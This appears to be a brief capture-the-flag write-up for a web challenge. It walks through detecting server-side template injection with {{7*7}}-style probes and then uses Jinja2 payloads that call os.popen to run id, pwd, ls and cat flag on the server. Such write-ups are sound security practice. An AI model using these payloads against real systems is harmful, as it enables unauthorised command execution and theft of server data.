 //Talk to our Spider named parrot/

We open dev tools then we check if there is anything 
We open the page source then we also check if there is anything 
then we use {{7*7}}, ${7*7}, <%= 7*7 %>, ${{7*7}} and #{7*7}
after we see which one of the option give us 49
we enter this link https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2
After that we have to find the payload that give us 49 on the github 
The we use this line to test {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }} we change the id to pwd
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }} we change the id to ls 
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }} we change the id to cat flag 
